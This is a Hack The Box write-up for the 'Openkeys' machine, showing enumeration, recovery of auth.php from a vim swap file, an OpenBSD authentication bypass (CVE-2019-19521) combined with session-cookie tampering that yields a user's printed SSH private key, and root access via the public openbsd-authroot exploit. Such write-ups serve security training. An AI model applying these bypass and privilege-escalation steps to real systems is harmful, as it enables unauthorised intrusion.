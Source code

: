 ```yaml
---
title: Openkeys - Hack The Box
author: "0xPThree"
description: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2020-09-10
image: images/openkeys_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```


![](images/openkeys_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------

   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. root@nidus:/git/htb/openkeys# nmap -Pn -n -sC -sV 10.10.10.199
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.1 (protocol 2.0)
    | ssh-hostkey:
    |   3072 5e:ff:81:e9:1f:9b:f8:9a:25:df:5d:82:1a:dd:7a:81 (RSA)
    |   256 64:7a:5a:52:85:c5:6d:d5:4a:6b:a7:1a:9a:8a:b9:bb (ECDSA)
    |_  256 12:35:4b:6e:23:09:dc:ea:00:8c:72:20:c7:50:32:f3 (ED25519)
    80/tcp open  http    OpenBSD httpd
    |_http-title: Site doesn't have a title (text/html).

    DIRB:
    ==> DIRECTORY: http://10.10.10.199/css/
    ==> DIRECTORY: http://10.10.10.199/fonts/
    ==> DIRECTORY: http://10.10.10.199/images/
    ==> DIRECTORY: http://10.10.10.199/includes/
    + http://10.10.10.199/index.html (CODE:200|SIZE:96)
    + http://10.10.10.199/index.php (CODE:200|SIZE:4837)
    ==> DIRECTORY: http://10.10.10.199/js/
    ==> DIRECTORY: http://10.10.10.199/vendor/

    NIKTO:
    + Server: OpenBSD httpd
    + Cookie PHPSESSID created without the httponly flag
    + Multiple index files found: /index.php, /index.html
    + OSVDB-3092: /includes/: This might be interesting...


2. Enumerating the webserver we find some interesting files right away.

  http://10.10.10.199/includes/auth.php.swp

  Download the swap-file and restor it by using 'vim -r auth.php.swp', save the file as auth.php (:w auth.php)

    root@nidus:/git/htb/openkeys# curl http://10.10.10.199/includes/auth.php.swp --output auth.php.swp
    root@nidus:/git/htb/openkeys# cat auth.php
      [..]
      $cmd = escapeshellcmd("../auth_helpers/check_auth " . $username . " " . $password);
      system($cmd, $retcode);
      [..]
      function init_session()
      {
          $_SESSION["logged_in"] = True;
          $_SESSION["login_time"] = $_SERVER['REQUEST_TIME'];
          $_SESSION["last_activity"] = $_SERVER['REQUEST_TIME'];
          $_SESSION["remote_addr"] = $_SERVER['REMOTE_ADDR'];
          $_SESSION["user_agent"] = $_SERVER['HTTP_USER_AGENT'];
          $_SESSION["username"] = $_REQUEST['username'];

  From the first snippet of the code we see that username and passwords are verified using '../auth_helpers/check_auth'
  In the second snippet we learn that the SESSION variable is controlled in the init-function, including username on the last line.

  Lastly, running strings on the swap file gives us a user - Jennifer.

    root@nidus:/git/htb/openkeys# strings auth.php.swp
      b0VIM 8.1
      jennifer
      openkeys.htb
      [..]

  Download the check_auth program, and enumerate it.
    root@nidus:/git/htb/openkeys# curl http://10.10.10.199/auth_helpers/check_auth --output check_auth
    root@nidus:/git/htb/openkeys# file check_auth
      check_auth: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /usr/libexec/ld.so, for OpenBSD, not stripped

  We could try to RE this ELF-file, however I'll go with this as a last resort. As for now it is not needed.


3. With all enumerated information, lets start to look for exploits. Pretty quickly we find an article covering
   four big OpenBSD vulnerabilities:
     - CVE-2019-19519 (Local privilege escalation)
     - CVE-2019-19520 (Local privilege escalation)
     - CVE-2019-19521 (Authentication Bypass)
     - CVE-2019-19522 (Local privilege escalation)

  CVE-2019-19521 tells us in short that we can bypass the auth by entering '-schallenge' as username, and any password.
  Trying this on our login prompt is successful, we are greeted with the text "OpenSSH key not found for user -schallenge"

  This is where I got stuck for a good while and had to turn to the forums for help. But as we could see before, the SESSION
  variable username can be controlled - and maybe tampered with in the cookie. Set the Name-filed to 'username' and
  Value-filed to 'jennifer'.

  Log in and out again, and voila! We got Jennifer's private key!

     -----BEGIN OPENSSH PRIVATE KEY-----
    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
    -----END OPENSSH PRIVATE KEY-----


4. Save the private key, login as Jennifer and grab user.txt.

    root@nidus:/git/htb/openkeys# ssh jennifer@openkeys.htb -i jennifer_id-rsa
      Last login: Wed Jun 24 09:31:16 2020 from 10.10.14.2
      OpenBSD 6.6 (GENERIC) #353: Sat Oct 12 10:45:56 MDT 2019

      Welcome to OpenBSD: The proactively secure Unix-like operating system.

      Please use the sendbug(1) utility to report bugs in the system.
      Before reporting a bug, please try to reproduce it with the latest
      version of the code.  With bug reports, please try to ensure that
      enough information to reproduce the problem is enclosed, and if a
      known fix for it exists, include that as well.

      openkeys$ id
        uid=1001(jennifer) gid=1001(jennifer) groups=1001(jennifer), 0(wheel)
      openkeys$ cat user.txt
        36ab21239a15c537bde90626891d2b10



██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. From our previous article, we also found three CVE's for Local PrivEsc, CVE-2019-19519, CVE-2019-19520 and CVE-2019-19522.
   A quick google for the CVE's we find a script called openbsd-authroot on github, download it and try it out.

    openkeys$ vi openbsd-authroot
    openkeys$ chmod +x openbsd-authroot
    openkeys$ ./openbsd-authroot
    openbsd-authroot (CVE-2019-19520 / CVE-2019-19522)
      [*] checking system ...
      [*] system supports S/Key authentication
      [*] id: uid=1001(jennifer) gid=1001(jennifer) groups=1001(jennifer), 0(wheel)
      [*] compiling ...
      [*] running Xvfb ...
      [*] testing for CVE-2019-19520 ...
      _XSERVTransmkdir: ERROR: euid != 0,directory /tmp/.X11-unix will not be created.
      [+] success! we have auth group permissions

      WARNING: THIS EXPLOIT WILL DELETE KEYS. YOU HAVE 5 SECONDS TO CANCEL (CTRL+C).

      [*] trying CVE-2019-19522 (S/Key) ...
      Your password is: EGG LARD GROW HOG DRAG LAIN
      otp-md5 99 obsd91335
      S/Key Password:

      openkeys# id
        uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
      openkeys# cat root.txt
        f3a553b1697050ae885e7c02dbfc6efa


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝


OpenBSD Auth Bypass
  https://www.secpod.com/blog/openbsd-authentication-bypass-and-local-privilege-escalation-vulnerabilities/
  https://www.qualys.com/2019/12/04/cve-2019-19521/authentication-vulnerabilities-openbsd.txt

openbsd-authroot PrivEsc
  https://github.com/bcoles/local-exploits/blob/master/CVE-2019-19520/openbsd-authroot
